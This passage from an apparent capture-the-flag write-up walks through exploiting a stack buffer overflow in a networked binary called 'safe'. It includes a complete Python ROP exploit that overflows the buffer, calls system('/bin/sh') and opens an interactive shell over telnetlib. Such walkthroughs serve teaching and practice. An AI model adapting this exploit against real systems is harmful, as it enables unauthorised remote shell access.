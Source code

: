 Running the program outside of gdb and piping our payload to it as input gives us command-line shell access. Our exploit method is successful.

![](/images/safe-pwn/pics/28.png#center)

******

## Exploiting the Networked Application

Running the program locally with our exploit payload piped directly to it as user input worked in getting us system shell access on our local machine, confirming our exploit works on the binary. Now we need to augment our exploit script to connect to the networked application running on the server and communicate with it. Rather than writing our payload to a file like we've previously done we can use python's [telnetlib](https://docs.python.org/3.8/library/telnetlib.html) module to establish a TCP connection to the server application and [interact](https://docs.python.org/3.8/library/telnetlib.html#telnetlib.Telnet.interact) with it, emulating a very dumb [Telnet](https://en.wikipedia.org/wiki/Telnet) client.

```python
#!/usr/bin/env python3
"""safe_pwn.py"""

import struct
from telnetlib import Telnet

HOST: str = "127.0.0.1"
PORT: int = 1337


# payload
def exploit() -> bytes:
    """Build our payload."""
    payload: bytes = (b"\x41" * 112)  # overflow junk
    payload += b"/bin/sh\x00"  # rbp : string argument for system function
    payload += struct.pack("<q", 0x401206)  # pop r13 ; pop r14 ; pop r15 ; ret
    payload += struct.pack("<q", 0x401040)  # r13 -> system
    payload += struct.pack("<q", 0x000000)  # r14 -> 0x0
    payload += struct.pack("<q", 0x000000)  # r15 -> 0x0
    payload += struct.pack("<q", 0x401152)  # test function
    return payload


def main() -> None:
    """Main function. Connect and interact
    with server application."""
    try:
        t_n: Telnet = Telnet(HOST, PORT)
        t_n.read_until(b"\n")
        t_n.write(exploit() + b"\n")
        print("\n[#] SYSTEM PWNED!! [#]\n")
        t_n.interact()
    except KeyboardInterrupt:
        print("\n\n[#] DISCONNECTING [#]\n")
        quit()
```
